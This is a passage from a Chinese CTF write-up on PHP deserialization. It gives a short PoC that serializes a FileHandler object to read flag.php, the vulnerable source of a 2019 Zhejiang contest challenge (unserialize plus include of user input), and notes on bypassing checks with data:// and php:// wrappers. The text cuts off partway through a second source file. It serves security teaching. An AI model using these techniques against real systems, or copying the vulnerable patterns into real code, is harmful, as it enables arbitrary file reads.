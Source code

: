 4. FileHandler在创建对象的时候会执行`__construct`，销毁对象时执行`__destruct`，两个方法都会调用process方法
5. process方法会调用write或read方法，这两个方法里有敏感函数，一个读文件一个写文件，我们这次只需要读；然后会调用output将read的返回输出
6. 如果要构造poc链，那里面的op要为2，filename要为我们想要读取文件的文件名，当然就是include包含的flag.php

## poc
```
<?php
class FileHandler {
    public $op;
    public $filename;
    public $content;
}
$a = new FileHandler(); // 虽然__construct方法会修改op和filename
$a->op=2;
$a->filename="flag.php";

echo serialize($a);
//echo urlencode(serialize($a);
?>
```

## 浙江省大学生网络与信息安全竞赛-决赛-2019-Web-逆转思维
## 源码1
```
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```
这里用到了伪协议的知识，这与我们这篇浅记的主题无关，况且这是浅浅一记
只需要知道，通过data://伪协议传text绕过welcome to the zjctf，再file传php伪协议的任意文件读取读useless.php内容的base64，然后解码就能得到useless.php源代码
## 源码2
```
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
```